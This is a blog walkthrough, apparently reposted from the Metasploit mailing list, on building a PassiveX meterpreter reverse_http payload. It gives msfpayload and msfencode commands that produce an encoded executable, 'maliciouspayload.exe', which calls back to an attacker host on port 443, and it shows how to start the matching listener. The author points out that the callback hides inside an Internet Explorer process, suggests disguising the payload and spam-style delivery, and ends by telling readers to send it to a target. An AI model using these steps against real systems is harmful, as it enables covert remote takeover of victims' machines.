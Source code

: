 = PassiveX fun with Metasploit
:hp-tags: metasploit, passivex

I posted this walkthrough to the Metasploit mailing list, but thought that it would serve well here as well. Especially with the recent iPhone 3.0 “Special” download spam I recently received. The binary comes out to a whopping 97 bytes for the stager. Would be a blazing fast download and coupled with the [IExpress “hack”](/archives/440-metasploit-2.html) would make for an very hard to spot payload.

A really down and dirty explination of what PassiveX is and why it's useful in this sort of situation is that instead of making a direct connection back to you, it uses an iexplorer process with a cool ActiveX control to talk back. So someone looking for a rogue process will only see Internet Explorer open and talking over port 443 (as specified).

(props to skape for writting PassiveX and @[NatronKeltner](https://twitter.com/natronkeltner) for kicking in the latest tweaks to make it work with IE7/IE8)

Here are the options for msfpayload:

```
Usage: ./msfpayload <payload> [var=val] <S[ummary]|C|P[erl]|[Rub]y|R[aw]|J[avascript]|e[X]ecutable|[V]BA>
```

And msfencode's options if you chose to use it as I demonstrate below. However, encoding happens by default with msfpayload (IIRC):

```
./msfencode -h
Usage: ./msfencode <options>
OPTIONS:
-a <opt> The architecture to encode as     
-b <opt> The list of characters to avoid: 'x00xff'      
-c <opt> The number of times to encode the data      
-e <opt> The encoder to use      
-h Help banner      
-i <opt> Encode the contents of the supplied file path      
-l List available encoders      
-m <opt> Specifies an additional module search path      
-n Dump encoder information      
-o <opt> The output file      
-s <opt> The maximum size of the encoded data      
-t <opt> The format to display the encoded buffer with (c, elf, exe, java, perl, raw, ruby, vba)
```

Here we create the PassiveX payload. Note the PX options instead of the LHOST/LPORT:

```
./msfpayload windows/reflectivemeterpreter/reverse_http PXHOST=192.168.1.100 PXPORT=443 PXURI=/ R | ./msfencode -t exe -o /tmp/maliciouspayload.exe
[*] x86/shikata_ga_nai succeeded with size 97 (iteration=1)
```

Now that we have our "malicious payload" in /tmp we get our listener ready (you can use msfcli as well, I just like msfconsole because it provides me more flexibility):

```
./msfconsole

 

_     
| | o      
_ _ _ _ _|_ __, , _ | | __ _|_      
/ |/ |/ | |/ | / | / _|/ _|/ / _| |      
| | |_/|__/|_/_/|_/ / |__/ |__/__/ |_/|_/      
/|      
|

 

=[ msf v3.3-dev     
+ -- --=[ 376 exploits - 234 payloads      
+ -- --=[ 20 encoders - 7 nops      
=[ 153 aux

 

msf > use multi/handler     
msf exploit(handler) > exploit -h
```
 
(I'm showing you 'exploit's options because a lot of people don't know they exist. With two lines you can start your listener (use, then exploit):**

```
Usage: exploit [options]     
Launches an exploitation attempt.

OPTIONS:     
-e <opt> The payload encoder to use. If none is specified, ENCODER is used.      
-h Help banner.      
-j Run in the context of a job.      
-n <opt> The NOP generator to use. If none is specified, NOP is used.      
-o <opt> A comma separated list of options in VAR=VAL format.      
-p <opt> The payload to use. If none is specified, PAYLOAD is used.      
-t <opt> The target index to use. If none is specified, TARGET is used.      
-z Do not interact with the session after successful exploitation.

msf exploit(handler) > exploit -j -z -p windows/reflectivemeterpreter/reverse_http -o PXHOST=0.0.0.0,PXPORT=443,PXURI=/,ExitOnSession=False

[*] Exploit running as background job.     
[*] PassiveX listener started.      
[*] Starting the payload handler...

 msf exploit(handler) >
```

Listener ready to go. I chose IP: 0.0.0.0 just to make things easy. Just send off maliciouspayload.exe to your target and you're set.